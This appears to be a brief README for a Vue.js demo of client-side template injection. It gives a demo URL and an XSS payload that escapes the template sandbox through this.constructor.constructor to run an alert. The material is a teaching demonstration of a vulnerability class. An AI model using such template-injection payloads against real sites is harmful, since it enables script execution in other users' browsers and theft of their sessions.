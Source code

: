 # Client-Side Template Injection

A example of client-side template injection with Vue.js

## Site

- https://vue-client-side-template-injection-example.azu.now.sh/?name=xxx

## Payload

XSS Payload

- https://vue-client-side-template-injection-example.azu.now.sh/?name={{this.constructor.constructor('alert("foo")')()}}